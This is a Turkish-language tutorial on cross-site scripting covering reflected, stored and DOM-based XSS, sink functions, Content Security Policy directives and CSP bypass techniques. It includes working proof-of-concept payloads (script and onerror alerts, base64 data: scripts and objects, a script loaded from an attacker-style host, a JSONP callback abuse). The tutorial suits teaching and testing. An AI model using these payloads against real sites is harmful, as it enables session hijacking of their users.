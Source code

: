 # XSS (Cross-Site Scripting)
XSS açıkları, saldırganın kurban kullanıcı gibi davranmasına, kullanıcının yapabileceği tüm işlemleri gerçekleştirmesine ve kullanıcıya ait verilere erişmesine olanak tanır. Eğer kurban kullanıcı uygulama içinde ayrıcalıklı yetkilere sahipse, saldırgan uygulamanın tüm işlevselliği ve verileri üzerinde tam kontrol sağlayabilir.

XSS, güvenlik açığı bulunan bir web uygulamasının kullanıcıya kötü amaçlı JavaScript kodu döndürmesi ile ortaya çıkar. Bu kod kurbanın tarayıcısında çalıştığında, saldırgan kurbanın uygulama ile olan etkileşimini tamamen ele geçirebilir.

## XSS Türleri
Üç ana XSS türü vardır:

* Reflected XSS – Kötü amaçlı script, mevcut HTTP isteğinden gelir.
* Stored XSS – Kötü amaçlı script, veritabanı gibi kalıcı bir depodan gelir.
* DOM-based XSS – Açık, sunucu tarafında değil istemci tarafındaki JavaScript kodunda bulunur.

## Reflected XSS
Reflected XSS, kullanıcının girdiği verinin sunucuya ulaştıktan sonra herhangi bir filtreleme veya sanitizasyon yapılmadan HTTP yanıtına dahil edilmesiyle oluşur.

Bu açık Non-Persistent olarak sınıflandırılır; sayfa kapatıldığında veya yenilendiğinde saldırı etkisiz hale gelir.

Örnek:
```html
https://insecure-website.com/status?message=All+is+well
<p>Status: All is well.</p>
```

Saldırgan URL’yi şu şekilde değiştirebilir:
```html
https://insecure-website.com/status?message=<script>alert('XSS')</script>
```

Kurban bu bağlantıya tıkladığında, script tarayıcıda kurbanın oturumu bağlamında çalışır.

## Stored XSS
Stored XSS (Persistent XSS), saldırganın enjekte ettiği kodun kalıcı olarak depolanması ve her görüntülendiğinde çalışması durumunda oluşur. Bu veri, veritabanına, loglara veya başka kalıcı depolama alanlarına kaydedilebilir.

Stored XSS en tehlikeli XSS türüdür; çünkü sayfayı ziyaret eden her kullanıcı saldırıdan etkilenir. Ayrıca genellikle manuel müdahale olmadan temizlenemez.

Örnek:
```html
<p>Hello, this is my message!</p>
```

Saldırgan şu şekilde veri gönderebilir:
```html
<p><script>alert('XSS')</script></p>
```

Bu içerik veritabanına kaydedilir ve her görüntülendiğinde çalışır.

## DOM-based XSS
DOM-based XSS, tamamen istemci tarafında (client-side) çalışan JavaScript kodunun kullanıcı girdisini filtrelemeden DOM’a yazması ile ortaya çıkar. Bu tür XSS, sunucuya gönderilen veri üzerinden değil, tarayıcıdaki Document Object Model (DOM) manipülasyonu ile tetiklenir.

Örnek:
```js
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

Eğer saldırgan `search` alanının değerini kontrol edebiliyorsa şu payload çalışabilir:

```html
<img src=1 onerror="alert('XSS')">
```

### Source & Sink
DOM-based XSS’i anlamak için Source ve Sink kavramlarını bilmek önemlidir:

* Source: Kullanıcı girdisini alan JavaScript nesnesi (örn. URL parametresi, form input’u).
* Sink: Kullanıcı girdisini DOM’a yazan fonksiyon. Eğer filtrasyon yapılmazsa XSS oluşur.

Sık kullanılan Sink fonksiyonları:
```javascript
document.write()
element.innerHTML
element.outerHTML
```

jQuery’de sık kullanılan Sink fonksiyonları:
```javascript
add()
after()
append()
```

Bu fonksiyonlar girdiyi doğrudan DOM’a yazarsa ve giriş doğrulaması yapılmazsa sayfa XSS’e açıktır.

## Content Security Policy
Content Security Policy (CSP), Cross-Site Scripting (XSS), clickjacking gibi belirli istemci tarafı saldırılarını tespit etmek ve sınırlandırmak için ek bir korumadır. Sunucu seviyesinde yapılandırılır. Yöneticiler, bir sayfa yüklendiğinde tarayıcıların uyması gereken kuralları tanımlar. Örneğin, hangi kaynaklardan script, resim veya diğer kaynakların yüklenebileceğini belirleyebilirler.

CSP iki şekilde tanımlanabilir:
* Sunucu yanıtına Content-Security-Policy HTTP header’ı ekleyerek.
* HTML sayfalarında <meta> etiketi kullanarak.

### Content Security Policy’nin Ana Direktifleri
Bir CSP, directive adı verilen kurallardan oluşur. Her direktif, belirli kaynakların yüklenmesi ve çalıştırılması için kısıtlamalar tanımlar.

#### Directive türleri:
* Fetch directives → Tarayıcıya verilerin nasıl yükleneceğini söyler.
* Diğer direktifler → Tarama, belge ve raporlama gibi ek güvenlik kontrolleri içerir.

#### Fetch directives (Kaynak yükleme direktifleri)
* default-src → Başka bir direktif tanımlanmazsa varsayılan kaynak.
* script-src → JavaScript ve WebAssembly için geçerli kaynaklar.
* script-src-elem → <script> tag’leri için geçerli kaynaklar (yoksa script-src kullanılır).
* frame-src → <frame> ve <iframe> için geçerli kaynaklar.
* img-src → Görseller için geçerli kaynaklar.
* style-src → CSS dosyaları için geçerli kaynaklar.
* font-src → Fontlar için geçerli kaynaklar.

#### Diğer önemli direktifler
* sandbox → İçeriği izole eden sandbox modunu aktif eder (<iframe> gibi).
* require-trusted-types-for → DOM tabanlı XSS saldırılarını sınırlamak için “trusted types” kullanımını zorunlu kılar.
* trusted-types → Sadece izin verilen “Trusted Types” tanımlarını çalıştırır.
* upgrade-insecure-requests → HTTP isteklerini otomatik olarak HTTPS’e çevirir.
* frame-ancestors → <frame>, <iframe>, <object>, <embed> ve <applet> için izin verilen kaynakları sınırlar.
* form-action → Formların gönderilebileceği URL’leri sınırlar.
* base-uri → <base> etiketi için geçerli kaynakları sınırlar.

#### Fetch Directives için Olası Değerler
* 'none' → Kaynağı tamamen engeller.
* 'self' → Yalnızca aynı origin’den yükleme yapılmasına izin verir.
* [host-source] → Özel bir domain veya IP tanımlar.
* [scheme-source] → Belirli bir protokole izin verir (https:, data:, ws:, vb.).
* → Herhangi bir alt domain, host veya port’a izin verir.
* 'nonce-[değer]' → Sunucu tarafından her yanıt için üretilen rastgele bir nonce değeri.
* 'unsafe-eval' → eval() gibi metin tabanlı JavaScript çalıştırılmasına izin verir.
* 'unsafe-inline' → Inline script, event attribute (onclick) ve javascript: URL’lerine izin verir.
* Yanlış yapılandırılmış değerler, özellikle XSS saldırılarına kapı açabilir.

### Content Security Policy Örneği
Sunucu, tarayıcıya CSP’yi HTTP yanıtında iletebilir:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://*.example.com; object-src 'none'; img-src 'self' data: *.vaadata.com;
```

Bu konfigürasyon:
* default-src 'self' → Tanımsız tüm kaynak türleri sadece aynı origin’den yüklenir.
* script-src 'self' https://*.example.com → Sadece example.com alt domainlerinden script yüklenir.
* object-src 'none' → <object> ve <embed> tamamen yasak.
* img-src 'self' data: .example.com → Görseller sadece self, data: şeması ve example.com alt domainlerinden yüklenebilir.

### CSP Bypass Teknikleri
#### unsafe-inline kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';
```

Bu durumda inline script’ler çalışabilir:
```js
<script>alert(1);</script>
```

#### unsafe-eval kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:;
```

eval() veya Function() çağrıları yapılabilir. Ayrıca data: şemasıyla Base64 kodlu script çalıştırılabilir:
```js
<script src="data:;base64,YWxlcnQoMSk="></script>
```

#### script-src'de wildcard (*) kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *;
```

Saldırgan kendi sunucusundan script yükleyebilir:
```js
<script src="https://evil.vaadata.at"></script>
```

### object-src ve default-src eksikliği
```http
Content-Security-Policy: script-src 'self'; img-src 'self';
```

<object> etiketi ile Base64 kodlu zararlı script yüklenebilir:
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

#### JSONP endpoint istismarı
```http
Content-Security-Policy: default-src 'none'; script-src https://hello.vaadata.com/test.js https://accounts.google.com/o/oauth2/revoke;
```

İzin verilen domainlerde JSONP endpoint varsa callback parametresi ile XSS yapılabilir:
```url
https://accounts.google.com/o/oauth2/revoke?callback=alert(1)
```
